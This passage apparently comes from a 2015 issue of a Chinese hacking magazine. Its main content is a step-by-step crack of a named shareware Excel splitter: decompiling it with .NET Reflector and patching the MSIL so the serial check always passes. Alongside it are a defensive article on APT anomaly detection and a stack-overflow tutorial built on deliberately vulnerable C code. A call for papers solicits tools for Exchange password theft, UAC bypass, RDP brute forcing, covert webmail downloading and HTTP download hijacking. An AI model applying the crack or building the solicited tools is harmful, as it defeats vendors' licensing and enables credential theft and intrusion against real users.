进入第二个 call 里，发现了两个关于 al 的可疑之处（如上图），mov bl, al、mov al, bl 这两句是干啥呢？将 al 的值给 bl，bl 的值再还给 al……？现在可以推想一下：bl 可能是用来暂时保存数据的，al 标志着是否已经被注册，它不希望被修改，所以将 al 保存在 bl 里面，经过一些操作后，再将 bl 赋给 al。那么在这之前，决定 al 值的 call 或许就是一个关键点！我们接着进入上图中的第 4 个 call，如图 7 所示。

图 7

继续查找，可以看到如图 8 所示的数值。

图 8

在这里走过一遍，发现 al 的值在这里被 bl 赋为 0，这里就是修改的关键点了，将这个 al 的值修改为 1 的话，就应该注册成功了。我们先走出去，稍后再来一轮在这里进行修改。

F8 走出这里后回到第二个关键 call 的位置，如图 9 所示。

继续往下走，我们要绕出去！如图 10 所示。

图 10

好了，进到几个关键 call 里用火眼金睛巡视了一番后，终于找到了注册的关键所在，只要把第 4 个关键 call 里的 al 的值修改为 1（原来为 0），就应该可以注册成功了！修改如图 11 所示。

图 11

修改后点击运行：成功注册了！！然后点击“确定”按钮，软件变为了已注册版，如图 12 所示。

图 12

## 论 .Net 熟肉的正确打开方式

文/图 木羊

说也奇怪，现在主流的编程语言排行，譬如说 TIOBE、.Net 平台的编程语言排名都是靠前的，C# 更是稳居前五。也就是说，用 .Net 平台开发的软件不是小众。最近微软的 .Net 平台开源了几个核心组件，.Net 开发的面积很可能还有上升空间。可为什么 .Net 相关的逆向研究文章不多呢？也许大牛觉得太简单了不屑于动笔。可是会者不难，很多同学其实都并不了解面对 .Net 编写的程序要如何入手破解，未知总是最可怕的，久了还会产生畏惧感。那我就以一次破解 .Net 程序为例子，进行相关思路和工具的介绍。

首先随便捡个 .Net 开发的软件，名叫“Excel 分割器”，可以从官网下载，但只是共享版，试用次数超了就不能用了。主界面如图 1 所示。

图 1

先别急着动手，所谓兵来将挡水来土掩。很多文章一上来就直奔对抗方法去了，但正确确定对抗的对象，才是对症下药的前提基础。.Net 逆向也一样，首先要确定是不是 .Net 程序，毕竟后缀名都是 exe。方法很多了，可以用 Hex 编辑器看看是不是 PE32+ 头结构，或者上查壳工具。这里我只补充一个很容易漏的但又很快捷的方法：看说明。现在很多软件的说明文档都写得比较详细，这其实有利于我们快速把握环境信息。这个 Excel 分割器的说明里（作者命名为“使用前先阅读我”）就有这么一段话：“xp 用户如果您的电脑没法运行该软件，请先安装 framework2.0”，基本可以确定它是 .Net 平台的程序了。

接着上工具。这里先要明确一个 .Net 程序运行的基本模型结构。.Net 平台的程序有点类似 Java，是需要依靠高级编程语言虚拟机运行的，名叫 .Net Framework。从源代码到真正执行，其实经历两大步：第一大步是将源代码编译成 MSIL（Microsoft Intermediate Language），Java 那边叫做字节码，不妨理解成一种特殊的“机器码”，只不过这种“机器码”仅供对应的高级编程语言虚拟机执行，此虚拟机非彼虚拟机，是个进程虚拟机。第二大步就是解释执行了，虚拟机 .Net Framework 将执行第一大步编译得到的 MSIL。当然现在为了优化性能，还采用了 JIT 等技术，将 MSIL 二次编译成真正的机器码，但这只是性能上的调整，整个 .Net 模型结构还是该只按两大步理解。

说清了这个结构，就可以接着讨论工具的问题。最常见的问题是：OD 能不能调 .Net 程序？前面说了，.Net 程序最终是要由“进程虚拟机”执行的，OD 可以调试 Windows 下 Ring3 层的进程，当然可以调试这个虚拟机，但有个问题：难度太大。Vmprotect 之前之所以独霸武林，正是因为它单独搞了一套“机器码”，将 x86 的机器码编译成 vmp 的机器码，最终再由 vmp 的虚拟机解释执行，和 .Net 的执行模型非常相近，也就不难推断出上 OD 直接调 .Net 程序的难度了。

那要怎么逆向 .Net 程序呢？前面已经说明，第一步是将源代码编译成 MSIL。如果有一款神器，能将 MSIL 直接反编译回源码，那逆向岂不是和阅读源码一样轻松愉快了？还真的有，.NET Reflector 就是这么一款神器。使用方法非常简单，把 .Net 编写的主程序拖进去，就直接吐出反编译后的源码，看着就像一个 .Net 工程（图 2），连类名、方法名、变量名都一一还原列出来：

图 2

可能会有同学担心，.Net 还分 C# 和 VB.Net 呢，语法格式完全不同，而且这两款编程语言热度很高，要怎么确定目标程序用哪款语言编写呢？完全不必担心。.Net 平台的设计初衷之一就是跨语言，只要功能相同，无论采用哪种语言，都将统一变成等价的 MSIL。也就是说，同一个 MSIL 理论上可以反编译成等价的 C# 或者 VB.Net 源码。.NET Reflector 事实上也实现了这个功能，只需要选择想要的语言即可得到对应的源码，这里选择 C#（图 3）。

图 3

好，现在可以直接把源码导出来了（图 4）。对，你没看错，导出源码，而且直接导出来就是一个完整的 C# 工程。逆向工程做到这种地步，不但连源码都有，而且连工程文件都给你建好了（图 5），还有什么好再说的了？要怎么玩、要怎么改，剩下的就交给想象力吧。

图 4

图 5

这样就结束了？错了，懒是没有止境的。譬如说我，我就懒得为破解一个共享软件打开 VS，MS 的 IDE 启动越来越慢，而且我都看到源码了，就不能直接改吗？抱歉，也许以后会有，现在还真的不行。不过 .NET Reflector 下有一款名为 Reflexil 的插件提供了修改 MSIL 的功能，还可以直接保存成 exe，算是间接满足了我们的想法。这里就以破解这款 Excel 分割器完整走一遍流程。

先定位到检测注册的地方，在 MainFr.CheckReg，代码如下：

```csharp
private void CheckReg()
{
    DoReg reg = new DoReg();
    if (reg.CheckKey())
    {
        if (Ver.IsCorrectSn(new HardWare().GetCpuID(), reg.GetSetting("sn")))
        {
            this.Text = this.Text + "(已注册)";
            this.RegBtn.Visible = false;
            this.CutBtn.Location = new Point((base.Size.Width / 2) - ...);
        }
    }
    else
    {
        int num = Convert.ToInt32(reg.GetSetting("c", "1"));
        if ((num < 1) || (num > 15))
        {
            MessageBox.Show("该软件试用次数已到! 请注册成为正式版! ", "提示", MessageBoxButtons.OK, MessageBoxIcon.Asterisk);
            new RegFr().ShowDialog();
            Application.Exit();
        }
        else
        {
            num--;
            this.Text = this.Text + string.Format("(未注册,您还可以使用{0}次)", num);
            reg.SaveSetting("c", num.ToString());
        }
    }
}
else
{
    reg.InitReg();
    reg.SaveSetting("c", "15");
    this.Text = this.Text + string.Format("(未注册,您还可以使用{0}次)", 15);
}
}
```

基本流程就是通过注册表判断是否已经注册，判断成功就进入“已注册”流程，否则就计算还能试用的次数并给出相应提示。判断的关键在于 `Ver.IsCorrectSn(new HardWare().GetCpuID(), reg.GetSetting("sn"))`，现在看看 Ver.IsCorrectSn，源码如下：

```csharp
public static bool IsCorrectSn(string cid, string sn)
{
    char[] chArray = cid.ToCharArray();
    string str = "";
    for (int i = 0; i < chArray.Length; i++)
    {
        str = str + (((chArray[i] + i) + 2)).ToString();
    }
    return (str == sn);
}
```

非常简单，关键就在于最后的 `return (str == sn)`，先比较再返回比较结果。让这个返回值永远为真就可以成功破解了。有了思路，现在需要改一下对应的 MSIL。使用 Reflexil 插件完成这项工作。Reflexil 不是自带的，需要先通过 Add-in 安装（图 6），点“+”：

图 6

通过菜单栏 Tools 调出 Reflexil。我的是 1.8 版，文档说最高只支持 .NET Reflector 的 8.3 版，但我试了最新版同样也支持。回到 Ver.IsCorrectSn，现在可以看到 Reflexil 栏显示出对应的 MSIL 代码（图 7）：

图 7

要修改 MSIL，首先就要读懂它，这里没什么捷径好走。掌握了 MSIL 的基本语法之后，找到 `return (str == sn)` 对应的 MSIL（图 8）：

图 8

.Net 的虚拟机采用堆栈机的结构，因此它的指令操作也多是堆栈操作。上述 MSIL 基本上可以理解成分别将 str 和 sn 压栈，然后调用字符串比较函数，最后将（放在堆栈中的）结果 ret。只要将两个压栈参数改成一样，就能保证返回值一定为真了。这里选择把 `ldloc.3` 改成 `ldloc.1`，操作方法是对着 `ldloc.3` 右键选择 Edit，进行修改后点击 Update 即可（图 9）：

| 行号 | 指令    | 操作数                                      |
|---|-------|------------------------------------------|
| 59 | ldloc.1 |                                          |
| 60 | ldloc.1 |                                          |
| 61 | ldloc.1 |                                          |
| 62 | call   | System.Boolean System.String::op_Equality(...) |

图 9

最后是保存。对着项目名右键，选择 Reflexil v1.8 -> Save as...，保存成一个新的 exe，破解就完成了。从逆向出源码工程，到直接破解，这篇文章都演示了一遍，相信各位同学对 .Net 程序如何逆向已经心中有数。不过最后我要泼一下冷水，这款 .Net 程序这么好破解，是因为它没经过任何保护。但既然逆向工具已经如此成熟，当然对应的盾也该有相当的发展。目前 .Net 较为主流的保护方式是进行混淆，首先各种名称就不要指望能看得到了，代码的阅读难度也将提升一个数量级，就不能简单套用本篇的方法了。这种混淆过的程序，不妨叫做生肉。生肉先要做成熟肉才能入口，因此，混淆过的程序也要想办法先去掉混淆保护，变成熟肉，再用本篇的“熟肉正确打开方式”，就能达到逆向的目的了。

（完）

### APT 防护探索之异常访问检测系统

文/图 xysky

去年在黑防上写了一篇关于 APT 防护的文章，基于终端层面的。此次为大家带来的是基于网络上的一种发现 APT 攻击的思路。结合该思路，我们定制开发了一套系统，并在办公网、业务网、互联网区域都进行了部署，在接近 4 年的实际运维过程中不断进行优化与改进，在内部多次红蓝对抗中发挥了很大的作用。

#### 思路探讨

设想一个场景：渗透人员通过分行 A 的一台机器访问了分行 B 的某台服务器的远程桌面，然后调出 shift 后门进一步控制系统。

再设想一个场景：办公网与业务网通过防火墙进行了限制，但允许 ICMP 协议通过。渗透测试人员为了在办公网直接控制业务网的机器，采用了一种 ping tunnel 的隧道技术来绕过防火墙。

以上的场景，依靠传统的 IPS 技术是发现不了这样的行为的，但往往真正的 APT 攻击就隐藏在这中间。有没有办法从网络访问异常上进行发现呢？什么算是异常？得有一定的模型和算法。

一个 IT 操作行为的属性包括：行为人身份（Identity）、发生时间（Time）、发生位置（Location）、行为方式（Means）、行为的类型（操作，Action）、行为对象（资源，Resource）。这些属性就构成了完整一个 IT 操作行为抽象模型（简称 ITLMAR 模型）。下面分别对每个属性作进一步的解释：

- 行为人身份：在 IT 系统中，表述身份的就是系统账号。
- 发生时间：时间属性中包含两层概念，一是个行为发生的时刻，另一个是行为发生的频率。但频率是一个间接属性，无法从单个行为日志中直接提取。
- 发生位置：IT 操作行为发生位置信息包括：IP 地址、ATM 终端号、POS 终端号、业务终端编号等。
- 行为方式：即以什么渠道完成的操作。例如在 IT 系统中，常见的访问方式有：专用客户端软件、中间件（对数据库访问通常采用中间件）、命令行（CLI）、远程桌面等。
- 行为对象：即各种 IT 资源，如文件、数据库表、服务器主机、数据项等。
- 行为操作：操作行为大体可以分为交易操作（转账、取现、存款、支付）、数据库操作（数据库）、文件操作三大类。

对异常行为的检测有两种方式，一种是基于行为特征的检测，不针对特定的账号或账号群组；还有一种是面向特定用户的，即基于用户基本行为模式的检测。从前面的论述中，我们看到行为模型由 6 个元素构成。检测规则可以单独针对其中的某一个或某几个，这样通通过组合计算，可以罗列出全部可能的规则模板，共 **63** 种（如下面的表格所示）。其中 √ 符号表示该模板检测所对应的元素。∀ 符号表示任意，即该规则不检测所对应的元素。

| 规则模板 | 身份 | 时间 | 地点 | 方式 | 操作 | 资源 |
|---|---|---|---|---|---|---|
| 规则模板1 | √ | ∀ | ∀ | ∀ | ∀ | √ |
| 规则模板2 | √ | √ | ∀ | ∀ | ∀ | ∀ |
| 规则模板3 | √ | √ | √ | ∀ | ∀ | √ |
| 规则模板4 | √ | √ | √ | √ | ∀ | ∀ |
| 规则模板5 | √ | √ | √ | √ | √ | ∀ |
| 规则模板6 | ∀ | √ | √ | √ | √ | ∀ |
| 规则模板7 | ∀ | ∀ | √ | √ | √ | ∀ |
| 规则模板8 | ∀ | ∀ | ∀ | √ | √ | ∀ |
| …… |  |  |  |  |  |  |
| 规则模板63 | ∀ | ∀ | ∀ | ∀ | ∀ | √ |

为了更好地说明检测规则模板的含义，这里用几个检测规则实例加以说明。

**规则模板1实例：** 除中间件和 **admin** 账户外，其它任何身份对数据库的访问都是违规的。

在很多 IT 系统中，只允许两个账号访问数据库，即中间件账号和维护用账号 **admin**。因此其它账号访问数据库，一律看作违规行为。这条检测规则只关注身份和资源两个因素。

**规则模板3实例：** **admin** 账户只能在系统维护时间段从 IP 地址是 **111.111.111.111** 的维护终端访问数据库，其它行为都是违规的。

时间也是检测规则必须考虑的因素，有些操作一般只发生在特定时间段内，并且只能从某个特定的维护终端主机上进行操作。

**规则模板7实例：** 除了通过堡垒主机以远程桌面方式进行的更新操作，其它都是违规的。

在某些 IT 系统的维护规定中，要求维护终端先登录到堡垒主机上，再用远程桌面的方式进行维护操作。

但是上述 **63** 种规则模板是数学组合的结果，并非都可以给出实例，原因是可能存在重复包含或无现实意义的情况。例如所有元素都检测这样的检测规则，现实中就很少见。

基于账户基调（profile）的检查规则是面向特定账户（群组）的，因此检测规则只包含除身份以外的另外 5 个元素（见下表）。

| 基调 | 时间 | 位置 | 方式 | 操作 | 资源 |
|---|---|---|---|---|---|
| 账户A | [ ]，频率 | {a,b,c} | {A,C} | {xx,xx} | {} 或 [ ] |
| 账户B | [ ]，频率 | {a,b,c} | {A,C} | {xx,xxx} | {} 或 [ ] |
| 账户C | [ ]，频率 | {a,b,c} | {A,C} | {} | {} 或 [ ] |
| …… |  |  |  |  |  |

每个账户历史上的行为记录可以构造成一个行为基调。一旦某个行为特征远远偏离这个基调，则判断为异常。同前面一样，时间元素的取值有两种可能：一个是时段（用区间符号 [] 表示），一个是频率。

位置、方式、操作三个元素分别都可以有多个非数值取值，因此是各元素的集合。资源的取值可能是数值的，也可能是非数值。这种检测规则通常用于检测外部用户的异常交易行为，因此这里用一个交易行为基调作为实例说明（账号A基调实例）。但是这个检测思想也可以应用于内部用户的访问行为监控（账号B基调实例）。

账号A基调实例：[12:00,13:00],[17:30,20:00]; {超市A，支付宝；超市B}; {POS, onlinebank}; {支付,转账}; [0,500]

在这个实例中，账户1银行卡交易行为基调是：通常在中午休息或晚上下班以后购物，购物方式基本是在超市A（工作单位附近）和超市B（住家附近）POS机刷卡，或通过支付宝网络购物，还有在网上支付一些账单，通常单次交易金额一般都不超过500元。

账号B基调实例：[9:00,17:00]; {IP:222.222.222.222}; {CLI，远程桌面}; {下载，上传，打开，创建}; {文件，数据库表}; [0,50M] [0,0.5M]

套用交易行为基调的方法进行内部行为检测时，有时需要对某些操作赋予两个资源取值，例如下载操作，不仅要检测下载对象，还要包括下载数量。在这个实例中，下载量是50MB，上传量是0.5MB。

该类技术模型相关的发展趋势主要在于更加丰富地增加 IT 操作行为的属性、系统输入数据的类型及关联分析。目前主要通过流量日志数据及6元组元素来定义异常行为访问规则，后续增加 IT 操作行为属性及更丰富的输入数据类型，将更好地从3到7层监控异常访问行为。

#### 设计与实现

在实际的实现过程中，基于6元组来定义异常有两个切入点：一个是基于访问路径的异常，一个是基于访问频率的异常。基于访问路径的异常很好理解，比如历史上A和B经常访问C的1433端口，突然有一天D也来访问C的1433端口，这在历史记录中是从来没有的，就算一个访问路径上的异常；基于频率的异常也很好理解，比如加入域的办公电脑每天访问域进行认证的次数也就几次，突然有一天一个IP不断地向域进行认证尝试，超过我们系统设置或者学习到的阈值，也算异常。

如何实现这套系统？得先拿到流量进行分析，按时间、源IP、源端口、目标IP、目标端口、应用协议这六个元素来标识访问关系及统计访问频率，通过自学习模式生成白名单和 profile 规则，按照我们的管控规则自定义黑名单，对后续流量按照白名单、黑名单、profile 规则的顺序进行匹配，对高风险事件进行实时告警。整个系统的处理逻辑如图1所示。


图1

看起来比较简单，真正实现并纳入日常运维，中间的工作量还是蛮大的。结合我们实际的运维经验，有几个功能点需要考虑加入到系统中：

- 资产与业务的导入：在系统上线前，企业肯定已有大量的信息资产，需要支持批量导入功能，否则工作量巨大；
- 协议识别：包括常见的远程桌面、SSH、FTP 等，还要能识别一些远程管理类工具，包括 pcanywhere、vnc 等，甚至还需要结合客户网络环境定制一些特征识别一些应用；
- 自我学习：系统在线上可以进行自我学习，通过一段时间的积累可以生成一些规则供安全人员参考；
- 入侵防护功能：常见的扫描行为、流行的 ms08067 类漏洞利用、常见的 sql 注入、XSS 攻击，传统的 IPS 都已经具备了；但针对我们提到的隐蔽隧道（ping tunnel、dns tunnel 等）的发现，还是要依赖于入侵防护模块进行定制开发；
- SOC 集成：发现的异常或可疑事件，需要与 SOC 对接，纳入日常安全运维进行跟踪与优化；
- Sniffer 联动：对于产生的异常或可疑事件，可以自动或手动将对应的原始包抓回来以便进行更深入的分析；
- 处理性能：系统镜像的流量越多，对系统本身的性能要求就越高，处理延时可能会导致今天的事件明天才能看到，这样是无法满足要求的。

#### 实际效果

该系统从 2011 年开始开发上线，截止到现在已经运行 4 年之久，这中间我们的红蓝对抗是在不断进行中，我们的系统功能也是在不断改进中。

增加协议识别后，基于协议与端口做一些规则，即可以发现一些可疑行为，比如远程桌面运行在非 3389 端口，SSH 运行在非 22 端口，如图2所示。

| 危险程度 | 时间 | 源IP | 源端口 | 目的IP | 目的端口 | 协议 | 资产 | 业务 | 应用 | 状态 | 备注 | 操作 |
|---|---|---|---|---|---|---|---|---|---|---|---|---|
| ！ | 2012-11-09 16:12:00 | 1.64.165 | 62662 | 3.14.66 | 2222 | TCP | 未知 | 未知 | SSH | 新事件 | 修改人/修改时间/备注等 | 图标操作 |
| ！ | 2012-11-09 16:12:00 | 1.64.165 | 62662 | 3.14.66 | 2222 | TCP | 未知 | 未知 | SSH | 新事件 | 修改人/修改时间/备注等 | 图标操作 |

图2

还可以识别到一些管理类协议，比如 pcanywhere、vnc，以及为了绕过我们检测的 vpn 等，如图3所示。

| 时间 | 源IP | 源端口 | 目的IP | 目的端口 | 协议 | 应用 | 状态 |
|---|---|---|---|---|---|---|---|
| 2012-11-20 17:02:04 | 1.38.76 | 1038 | 3.14.65 | 5631 | TCP | pcAnywhere | 未知 |
| 2012-11-20 17:02:04 | 1.38.76 | 1038 | 3.14.65 | 5631 | TCP | pcAnywhere | 未知 |

图3

增加隐蔽隧道识别后，可以发现渗透测试人员的 ptunnel 行为，如图4所示。

| 时间 | 上报设备 | 事件类型 | 事件名称 | 事件次数 | 源IP | 目的IP | 用户 | 协议摘要 |
|---|---|---|---|---|---|---|---|---|
| 2012-11-06 16:38:24 | ……J.208（nsc） | IM/P2P | ptunnel连接 | 1 | 1.38.198 | 3.14.66 |  | IP.ICMP |

图4

以上截图都是内部真实渗透产生，所以隐去了一些 IP 相关信息。最后，还是想说的是，APT 防护比拼的还是资源，投入大量人力物力财力去建设这些基础的安全系统，不见得适合所有企业，请各位自行参考。

（完）

### 2015 年第 3 期杂志特约选题征稿

黑客防线于 2013 年推出新的约稿机制，每期均会推出编辑部特选的选题，涵盖信息安全领域的各个方面。对这些选题有兴趣的读者与作者，可联系投稿信箱：675122680@qq.com、hadefence@gmail.com，或者 QQ：675122680，确定有意的选题。按照要求如期完成稿件者，稿酬按照最高标准发放！特别优秀的稿酬另议。2015 年第 2 期部分选题如下，完整的选题内容请见每月发送的约稿邮件。

#### 1. Exchange 临时文件还原解密

对于 Exchange 邮件服务器，最新邮件最初会以临时文件形式存储于服务器上，若要实现对最新邮件的实时获取，可针对加密的临时文件进行还原，从而获取邮件。  
编写程序，实现对 Exchange 临时文件的还原。

#### 2. Exchange 账户密码获取

对 Exchange 邮件系统所有用户及对应密码的抓取、还原；Exchange 邮箱系统无法直接进行数据操作，所以需要对其数据库进行提取和还原。  
编写程序，实现对 Exchange 邮件系统的监控，获取邮件系统所有内建账户与密码。

#### 3. 绕过 Windows UAC 的权限限制

自本期始，黑客防线杂志长期征集有关绕过 Windows UAC 权限限制的文章（已知方法除外）。

- Windows UAC 高权限下，绕过 UAC 提示进入系统的方法；
- Windows UAC 低权限下，进入系统后提高账户权限的方法。

#### 4. 虚拟机穿透

主机安装有虚拟机，现已远程控制虚拟机，寻求如何利用虚拟机的弱点，穿透虚拟机，进而控制本机的方法。

#### 5. 同步下载邮件

假设本机当前系统已掌控，在用户登录 Web 邮箱时，能够自动后台同步下载邮件并保存，包括收件箱、发件箱、已发送邮件、联系人等信息，优先实现 gmail、yahoo 信箱。

### 6. Windows7 屏幕保护密码获取

非重启系统状态下，本机（非远程受控机）屏幕保护已启动，本地获取 Windows7 屏幕保护密码的方法。

#### 7. 暴力破解 3389 远程桌面密码

- 要求：
- 针对 Windows 3389 远程桌面实现暴力破解密码；
- 读取指定的用户名和密码字典文件；
- 采用多线程；
- 所有函数都必须判断错误值；
- 使用 VC++2008 编译工具实现，控制台程序；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 支持 Windows XP/2003/7/2008。

### 8. WEB 服务器批量扫描破解

- 针对目标 IP 参数要求：

10.10.0.0/16

10.10.3.0/24

10.10.1.0-10.255.255.255

- 针对目标 Web 服务器扫描要求：  
可以识别目标 Web 服务器上运行的 Web 服务器程序，比如 APACHE 或者 IIS 等，具体参考如下：

|  |  |  |  |
|---|---|---|---|
| Tomcat | Weblogic Jboss |  |  |
| Apache | JOnAS | WebSphere |  |
| Lotus Server | IIS(Webdav) | Axis2 |  |
| Coldfusion | Monkey HTTPD | Nginx |  |

- 针对目标 Web 服务器后台扫描：  
针对目标进行后台地址搜索。

- 针对目标 Web 后台密码破解：  
搜索到 Web 登录后台以后，尝试弱口令破解，可以指定字典。

#### 9. 编写端口扫描器

- 要求：
- 扫描出目标机器开放的端口，支持 TCP Connect、SYN、UDP 扫描方式；
- 扫描方式采用多线程，并能设置线程数；
- 将功能编写成 DLL，导出功能函数；
- 代码写成 C++ 类，直接声明类，调用类成员函数就可以调用功能；
- 尽量多做出错异常处理，以防程序意外崩溃；
- 使用 VC++2008 编译工具编写；
- 支持系统 Windows XP/2003/2008/7。

### 10. Android WIFI Tether 数据转储劫持

说明：

WIFI Tether（开源项目）可以在 ROOT 过的 Android 设备上共享移动网络（也就是我们常说的 Wi-Fi 热点），请参照 WIFI Tether 实现一个程序，对流经本机的所有网络数据进行分析存储。

- 要求：
- 开启 WIFI 热点后，对流经本机的所有网络数据进行存储；
- 不同的网络协议存储为不同的文件，比如 HTTP 协议存储为 HTTP.DAT；
- 针对 HTTP 下载进行劫持，比如用户下载 www.xx.com/abc.zip，软件能拦截此地址并替换 abc.zip 文件。

### 11. 突破 Windows7 UAC

说明：

编写一个程序，绕过 Windows7 UAC 提示，启动另外一个程序，并使这个程序获取到管理员权限。

要求：

- Windows UAC 安全设置为最高级别；
- 系统补丁打到最新；
- 支持 32 位和 64 位系统。

### 2015 年征稿启事

《黑客防线》作为一本技术月刊，已经 15 年了。这十多年以来基本上形成了一个网络安全技术坎坷发展的主线，陪伴着无数热爱技术、钻研技术、热衷网络安全技术创新的同仁们实现了诸多技术突破。再次感谢所有的读者和作者，希望这份技术杂志可以永远陪你一起走下去。

投稿栏目：

#### 首发漏洞

要求原创必须首发，杜绝一切二手资料。主要内容集中在各种 0Day 公布、讨论，欢迎第一手溢出类文章，特别欢迎主流操作系统和网络设备的底层 0Day，稿费从优，可以洽谈深度合作。有深度合作意向者，直接联系总编辑 binsun20000@hotmail.com。

#### Android 技术研究

黑防重点栏目，对 Android 系统的攻击、破解、控制等技术的研究。研究方向包括 Android 源代码解析、Android 虚拟机，重点欢迎针对 Android 下杀毒软件机制和系统底层机理研究的技术和成果。

#### 本月焦点

针对时下的热点网络安全技术问题展开讨论，或发表自己的技术观点、研究成果，或针对某一技术事件做分析、评测。

#### 漏洞攻防

利用系统漏洞、网络协议漏洞进行的渗透、入侵、反渗透、反入侵，包括比较流行的第三方软件和网络设备 0Day 的触发机理，对于国际国内发布的 PoC 进行分析研究，编写并提供优化的 exploit 的思路和过程；同时可针对最新爆发的漏洞进行底层触发、shellcode 分析以及对各种平台安全机制的研究。

#### 脚本攻防

利用脚本系统漏洞进行的注入、提权、渗透；国内外使用率高的脚本系统的 0Day 以及相关防护代码。重点欢迎利用脚本语言缺陷和数据库漏洞配合的注入以及补丁建议；重点欢迎 PHP、JSP 以及 HTML 边界注入的研究和代码实现。

#### 工具与免杀

巧妙的免杀技术讨论；针对最新 Anti 杀毒软件、HIPS 等安全防护软件技术的讨论。特别欢迎突破安全防护软件主动防御的技术讨论，以及针对主流杀毒软件文件监控和扫描技术的新型思路对抗，并且欢迎在源代码基础上免杀和专杀的技术论证！最新工具，包括安全工具和黑客工具的新技术分析，以及新的使用技巧的实例讲解。

#### 渗透与提权

黑防重点栏目。欢迎非 Windows 系统、非 SQL 数据库以外的主流操作系统渗透、提权技术讨论，特别欢迎内网渗透、摆渡、提权的技术突破。一切独特的渗透、提权实际例子均在此栏目发表，杜绝任何无亮点技术文章！

#### 溢出研究

对各种系统包括应用软件漏洞的详细分析，以及底层触发、shellcode 编写、漏洞模式等。

#### 外文精粹

选取国外优秀的网络安全技术文章，进行翻译、讨论。

#### 网络安全顾问

我们关注局域网和广域网整体网络防/杀病毒、防渗透体系的建立；ARP 系统的整体防护；较有效且不损失网络资源的防范 DDoS 攻击技术等相关方面的技术文章。

#### 搜索引擎优化

主要针对特定关键词在各搜索引擎的综合排名、针对主流搜索引擎的多关键词排名的优化技术。

#### 密界寻踪

关于算法、完全破解、硬件级加解密的技术讨论和病毒分析、虚拟机设计、外壳开发、调试及逆向分析技术的深入研究。

#### 编程解析

各种安全软件和黑客软件的编程技术探讨；底层驱动、网络协议、进程的加载与控制技术探讨和 virus 高级应用技术编写；以及漏洞利用的关键代码解析和测试。重点欢迎 C/C++/ASM 自主开发独特工具的开源讨论。

### 投稿格式要求：

- 技术分析来稿一律使用 Word 编排，将图片插入文章中适当的位置，并明确标注“图1”“图2”；
- 在稿件末尾请注明您的账户名、银行账号以及开户地址，包括你的真实姓名、准确的邮寄地址和邮编、QQ 或者 MSN、邮箱、常用的笔名等，方便我们发放稿费。
- 投稿方式和周期：  
采用 E-Mail 方式投稿，投稿 mail：hadefence@gmail.com、QQ：675122680。投稿后，稿件录用情况将于 1～3 个工作日内回复，请作者留意查看。每月 10 日前投稿将有机会发表在下月杂志上，10 日后将放到下下月杂志，请作者朋友注意，确认在下一期也没使用者，可以另投他处。限于人力，未采用的恕不退稿，请自留底稿。

**重点提示：** 严禁一稿两投。无论什么原因，如果出现重稿——与别的杂志重复——与别的网站重复，将会扣发稿费，从此不再录用该作者稿件。

- 稿费发放周期：  
稿费当月发放（最迟不超过 2 月），稿费从优。欢迎更多的专业技术人员加入到这个行列。
- 根据稿件质量，分为一等、二等、三等稿件，稿费标准如下：
  - 一等稿件　900 元/篇
  - 二等稿件　600 元/篇
  - 三等稿件　300 元/篇
- 稿费发放办法：  
银行卡发放，支持境内各大银行借记卡，不支持信用卡。
- 投稿信箱及编辑联系：  
投稿信箱：675122680@qq.com、hadefence@gmail.com  
编辑 QQ：675122680

# 黑客防线

总第172期 2015

网站全新改版，欢迎访问：http://www.hacker.com.cn


- 打造实用的 Android 程序锁
- Windows 7 下的栈溢出原理与实践
- Python 编写木马程序
- Proftpd mod_copy 模块命令未授权调用
- 基于 Win64 系统的进程内存取证分析技术
- Android 零星木马技术浅析

## 《黑客防线》4期文章目录

总第172期 2015年

#### 漏洞攻防

- Windows 7 下的栈溢出原理与实践（xiaoqin00）............................3
- Proftpd mod_copy 模块命令未授权调用（[Baidu-Xteam] S.T.）...........6
- 从敏感文件泄露到获取 webshell（Simeon）.............................8

#### 编程解析

- Python 编写木马程序（light（NEURON））.............................12
- 基于 Win64 系统的进程内存取证分析技术（倪程）......................17

#### 密界寻踪

- .Net 生肉研究报告（木羊）.........................................23

#### Android 远程监控技术

- 打造实用的 Android 程序锁（DesertEagle）..........................28
- Android 零星木马技术浅析（马智超）................................32

- 2015 年第 4 期杂志特约选题征稿....................................36
- 2015 年征稿启示....................................................39


### Windows 7 下的栈溢出原理与实践

文/图 xiaoqin00

在我们的生活中，存在着许许多多的漏洞，下面向大家介绍的就是平时比较常见的栈溢出漏洞的实践过程。我们将用一个非常简单的例子让大家对栈溢出漏洞有个直观的认识。下面是一个简单的密码验证程序，因为代码不严密，导致了栈溢出漏洞的产生。

```c
#include<stdio.h>
#include<string.h>
#define PASSWORD "1234567"
int verify_password(char *password)
{
    int authenticated;
    char buffer[8]; // 定义一个大小为 8 字节的数组，控制没溢出的字符串长度；（超出这个长度就发生溢出）
    authenticated = strcmp(password, PASSWORD);
    strcpy(buffer, password); // 这个语句就直接导致了溢出的发生
    return authenticated;
}
main()
{
    int valid_flag = 0;
    char password[1024];
    while(1)
    {
        printf("请输入密码:");
        scanf("%s", password);
        valid_flag = verify_password(password);
        if(valid_flag)
        {
            printf("密码错误!\n\n");
        }
        else
        {
            printf("恭喜，你通过了验证!\n");
            break;
        }
    }
}
```

具体运行情况如图 1 所示。


图 1

如果我们输入这样的密码，它也能通过，如图 2 所示。


图 2

那么，出现这种情况的原因是什么呢？如图 3 所示，是程序运行时栈的情况。


图 3

学过 C 语言的人应该知道，一个字符串的结尾是以字符串截断符 null 作为字符串结束标志的。在这个程序中，我们开始定义的 char 型 buffer 数组长度为 8，如果你输入的密码长度不等于 8 的话，那么这个密码验证程序的功能还是完善的，但是如果你的密码长度为 8 的话，这个栈溢出漏洞的危害就显现出来了。密码长度为 8，buffer 字符串数组的结束标志就会溢出至 int authenticated 的内存空间内，并将原来的数据覆盖。

观察源代码不难发现，authenticated 变量的值来源于 strcmp 函数的返回值，之后会返回给 main 函数作为密码验证成功与否的标志变量：当 authenticated 为 0 时，表示验证成功，反之，验证不成功。

下面我们用 OllyDbg 来验证一下到底是不是这样，如图 4 所示，我们输入 8 个 q。


图 4

在图 5 中，我们可以清楚地看到，8 个 q（ASCII 中 71 代表 q）将 buffer 数组全部占满，字符串截断符溢出至 0018FB4C（即原 authenticated 的位置）。


图 5

栈的具体变化情况如下表所示。

| 局部变量名 | 内存地址 | 偏移 3 处的值 | 偏移 2 处的值 | 偏移 1 处的值 | 偏移 0 处的值 |
|---|---|---|---|---|---|
| Buffer | 0x0018FB44 | 0x71('q') | 0x71('q') | 0x71('q') | 0x71('q') |
|  | 0x0018FB48 | 0x71('q') | 0x71('q') | 0x71('q') | 0x71('q') |
